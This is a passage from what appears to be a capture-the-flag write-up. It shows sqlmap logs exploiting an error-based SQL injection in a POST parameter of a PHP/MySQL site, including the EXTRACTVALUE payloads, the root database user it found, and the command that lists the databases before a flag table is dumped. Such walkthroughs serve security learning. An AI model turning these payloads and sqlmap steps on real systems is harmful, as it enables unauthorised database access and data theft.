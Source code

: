 ```
[19:03:18] [WARNING] provided value for parameter 'status[1379]' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[19:03:18] [INFO] resuming back-end DBMS 'mysql' 
[19:03:18] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: status[1379] (POST)
    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: status[1379]=' AND EXTRACTVALUE(9600,CONCAT(0x5c,0x716a717871,(SELECT (ELT(9600=9600,1))),0x71716a7071)) AND 'HQrT'='HQrT&change=Save status
---
[19:03:19] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 7 (wheezy)
web application technology: Apache 2.2.22, PHP 5.4.45
back-end DBMS: MySQL >= 5.1 (MariaDB fork)
[19:03:19] [INFO] fetching current user
[19:03:19] [INFO] resumed: 'root@%'
current user: 'root@%'
[19:03:19] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/[..snip..]'

[*] ending @ 19:03:19 /2021-11-30/
```  

**Step 2 – Dumping the databases, then table content**

I made a mistake by trying to dump the table (i.e. flag) first, which wouldn’t succeed. Yes, I already know the table name “flag” from the CTF hint, but still, we have to go step by step.
 
![image](https://user-images.githubusercontent.com/94167587/144216777-192b9610-795e-4083-8102-b94765921d68.png)

 
  
 I made a good reference by reading a [CTF write-up post]( https://ctftime.org/writeup/24593) First, let’s list the databases 😊
```
sqlmap -r search.req --dbs
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.5.10#stable}
|_ -| . [(]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 18:10:06 /2021-11-30/

[18:10:06] [INFO] parsing HTTP request from 'search.req'
[18:10:06] [WARNING] provided value for parameter 'status[1379]' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[18:10:06] [INFO] resuming back-end DBMS 'mysql' 
[18:10:06] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: status[1379] (POST)
    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: status[1379]=' AND EXTRACTVALUE(5008,CONCAT(0x5c,0x7162627171,(SELECT (ELT(5008=5008,1))),0x71786b7a71)) AND 'MtZI'='MtZI&change=Save status
---
[18:10:07] [INFO] the back-end DBMS is MySQL
```